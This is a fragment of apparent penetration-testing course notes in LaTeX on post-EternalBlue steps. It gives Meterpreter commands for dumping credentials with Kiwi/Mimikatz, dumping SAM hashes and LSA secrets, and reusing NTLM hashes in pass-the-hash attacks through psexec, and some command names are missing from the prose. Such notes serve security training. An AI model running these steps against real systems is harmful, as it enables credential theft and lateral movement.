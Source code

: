 \begin{notebox}



\subsection{Post-EternalBlue --- Credential Dumping with Kiwi}

Once you have a SYSTEM Meterpreter session via EternalBlue, you can dump
credentials from memory using  (the Metasploit implementation of
Mimikatz).

\begin{termbox}
# Inside Meterpreter session
load kiwi
creds_all           # Dump all credentials
lsa_dump_sam        # Dump SAM database hashes
lsa_dump_secrets    # Dump LSA secrets

# Find running processes to migrate into
pgrep              # List process IDs
migrate <PID>      # Migrate into a stable process before loading kiwi
\end{termbox}

\subsection{Hashdump and Using Hashes with PsExec}

\begin{termbox}
# Dump password hashes from the SAM database
hashdump

# The output format is: username:RID:LM_hash:NTLM_hash:::
# Copy the NTLM hash for pass-the-hash attacks

# Use hash directly in psexec (pass-the-hash)
use exploit/windows/smb/psexec
set SMBUser Administrator
set SMBPass <NTLM_hash_copied_from_hashdump>
# Format: aad3b435b51404eeaad3b435b51404ee:NTLM_hash
exploit
\end{termbox}

\begin{notebox}
 puts the current Meterpreter session into the background without
closing it. Use  to list all sessions and  to
reconnect to session number N.
\end{notebox}


\end{notebox}
